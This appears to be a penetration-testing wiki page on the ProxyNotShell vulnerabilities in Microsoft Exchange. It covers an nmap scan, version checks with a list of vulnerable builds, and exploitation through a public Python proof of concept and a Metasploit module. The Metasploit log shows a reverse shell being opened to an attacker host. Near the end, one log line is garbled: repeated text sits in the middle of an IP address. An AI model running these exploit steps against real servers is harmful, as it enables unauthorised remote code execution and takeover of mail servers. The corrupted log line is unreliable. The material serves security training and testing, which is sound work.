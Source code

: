 ```yaml
---
description: Chained CVE-2022-41040, CVE-2022-41082
---
```


# ProxyNotShell

## Theory

ProxyNotShell is identified with the following CVEs: CVE-2022–41040 and CVE-2022–41082. The vulnerabilities affect Microsoft Exchange on premises with an **Outlook Web App.**

**CVE-2022-41040** : SSRF\
This vulnerability allow attackers to send an arbitrary request with a controlled URI and controlled data to an arbitrary backend service with LocalSystem privilege. (Request is very similar to the [ProxyShell](proxyshell.md) one)

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><strong>CVE-2022-41040 - SSRF</strong><br></p></figcaption></figure>

**CVE-2022-41082** : RCE\
By abusing CVE-2022-41040 **authenticated** users may exploit CVE-2022-41082 to run arbitrary commands in vulnerable Exchange Servers.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><strong>CVE-2022-41082</strong> - RCE Request</p></figcaption></figure>

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We can use the [proxynotshell\_checker.nse](https://github.com/CronUp/Vulnerabilidades/blob/main/proxynotshell_checker.nse) nmap script to scan a target

```bash
nmap -p80,443 --script="proxynotshell_checker.nse" $IP

443/tcp open  https
    |_proxynotshell_checker: Potentially vulnerable to ProxyNotShell (mitigation not applied).
```

If we have local access to the target running exchange, we can check it version using the following powershell command:

```powershell
#Method 1
PS> GCM exsetup |%{$_.Fileversioninfo}

#Method 2
PS> (Get-Command ExSetup.exe).FileVersionInfo.ProductVersion

ProductVersion   FileVersion      FileName                                                                             
--------------   -----------      --------                                                                             
15.02.0858.005   15.2.1118.20   C:\Program Files\Microsoft\Exchange Server\V15\bin\ExSetup.exe
```

We can now search for the exact Microsoft Exchange product version using [this microsoft link](https://learn.microsoft.com/fr-fr/exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019).\
\
Following versions are vulnerable :

| Version            | Vulnerable ProductVersion |
| ------------------ | ------------------------- |
| Exchange 2019 CU12 | < 15.2.1118.20            |
| Exchange 2019 CU11 | < 15.2.986.36             |
| Exchange 2016 CU23 | < 15.1.2507.16            |
| Exchange 2016 CU22 | < 15.1.2375.33            |
| Exchange 2013 CU23 | < 15.0.1497.32            |

{% hint style="info" %}
All versions before November 8, 2022 are vulnerable
{% endhint %}
{% endtab %}

{% tab title="Exploit" %}
We can use [testanull's python script](https://github.com/testanull/ProxyNotShell-PoC) to exploit this vulnerability

```bash
# Install dependecies
pip install requests_ntlm2 requests

#Exploit
python poc_aug3.py <host> <username> <password> <command>
```
{% endtab %}

{% tab title="Exploit - Metasploit" %}
A Metasploit module is available to exploit ProxyNotShell

{% hint style="info" %}
This exploit only support Exchange Server 2019
{% endhint %}

```bash
msf6 > use exploit/windows/http/exchange_proxynotshell_rce

msf6 exploit(windows/http/exchange_proxynotshell_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set USERNAME aliddle
USERNAME => aliddle
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 exploit(windows/http/exchange_proxynotshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (175686 bytes) to 192.168.159.11
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 1We can use the We can use the We can use theWe can use the92.168.159.11:7290) at 2022-11-18 17:32:18 -0500

meterpreter > 
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.rezilion.com/blog/proxyshell-or-proxynotshell-lets-set-the-record-straight/" %}

{% embed url="https://www.picussecurity.com/resource/blog/proxynotshellcve-2022-41040-and-cve-2022-41082-exploits-explained" %}
